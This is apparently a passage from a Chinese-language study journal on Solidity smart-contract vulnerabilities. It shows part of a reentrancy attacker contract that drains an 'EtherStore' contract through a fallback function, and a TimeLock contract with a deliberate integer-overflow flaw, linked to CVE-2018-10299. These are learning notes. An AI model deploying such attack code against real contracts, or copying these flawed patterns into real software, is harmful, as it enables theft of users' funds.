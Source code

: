 	  function attackEtherStore() external payable {
	      // attack to the nearest ether
	      require(msg.value >= 1 ether);
	      // send eth to the depositFunds() function
	      etherStore.depositFunds.value(1 ether)();
	      // start the magic
	      etherStore.withdrawFunds(1 ether);
	  }
	
	  function collectEther() public {
	      msg.sender.transfer(this.balance);
	  }
	
	  // fallback function - where the magic happens
	  function () payable {
	      if (etherStore.balance > 1 ether) {
	          etherStore.withdrawFunds(1 ether);
	      }
	  }
	}
       
   	```
   	
   + 剩下例子明天繼續

### 2025.04.16
+ Arithmetic Over/Underflows
	+ uint8 : [0,255] 存256會變0
 	+ int8: -127減1會變成127
  +  範例TimeLock.sol
	  ```TimeLock.sol
	  contract TimeLock {
	
	    mapping(address => uint) public balances;
	    mapping(address => uint) public lockTime;
	
	    function deposit() external payable {
	        balances[msg.sender] += msg.value;
	        lockTime[msg.sender] = now + 1 weeks;
	    }
	
	    function increaseLockTime(uint _secondsToIncrease) public {
	        lockTime[msg.sender] += _secondsToIncrease;
	    }
	
	    function withdraw() public {
	        require(balances[msg.sender] > 0);
	        require(now > lockTime[msg.sender]);
	        uint transferValue = balances[msg.sender];
	        balances[msg.sender] = 0;
	        msg.sender.transfer(transferValue);
	    }
	  }
	  ```
   	+ 案例: CVE-2018–10299(PoWHC and Batch Transfer Overflow)
